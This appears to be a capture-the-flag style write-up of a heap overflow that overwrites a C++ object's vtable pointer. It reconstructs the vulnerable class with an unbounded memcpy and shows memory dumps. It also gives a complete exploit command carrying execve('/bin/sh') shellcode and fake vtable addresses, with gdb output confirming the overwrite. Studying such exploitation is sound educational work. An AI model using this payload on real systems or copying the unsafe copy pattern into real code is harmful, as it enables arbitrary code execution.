 
Reconstructed C++ source from assembly (approx) :

```cpp
#include <string.h>
#include <memory.h>

class Foo {
    public:
        Foo(int value) : value(value), buffer() {}

        void setAnnotation(const char *str) {
            memcpy(buffer, str, strlen(str));
        }

        virtual int operator+(const Foo& rhs) {
            return value + rhs.value;
        }

        virtual int operator-(const Foo& rhs) {
            return value - rhs.value;
        }

    private:
        char buffer[100];
        int value;
};

int main(int argc, char **argv) {
    if (argc != 2) {
        return 1;
    }

    Foo *instance1 = new Foo(5);
    Foo *instance2 = new Foo(6);

    const int v = *instance1 + *instance2;
}
```

Memory layout of the two class :

```
0x804a008:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071

0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006	0x00020f21
```

Since the class contains **virtual functions**, the compiler has added a **virtual pointer** that points to a **virtual table**, that contains the address of the two method that are virtual : the *plus* and *minus* sign that are overloaded.

The `setAnnotation` method is unsafe and can overflow if the size of the string exceed the buffer allocated in the class. By overflowing the `buffer`, we can actually overwrite the **virtual pointer** of the second instance. We can make it point to a *fake* **vtable** that has an entry that points to a *shellcode*.

Let's try with the payload generated by the following command :

```bash
$(python -c 'print("\x10\xA0\x04\x08" + "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80" + "#"*81 + "\x0C\xA0\x04\x08")')
```

```
(gdb) x/56wx 0x804a008
0x804a008:	0x08048848	0x0804a010	0x6850c031	0x68732f2f
0x804a018:	0x69622f68	0x89e3896e	0xb0c289c1	0x2380cd0b
0x804a028:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a038:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a048:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a058:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a068:	0x23232323	0x23232323	0x23232323	0x23232323

0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006	0x00020f21
```

The vpointer of `instance2` now points to `0x0804a00c`.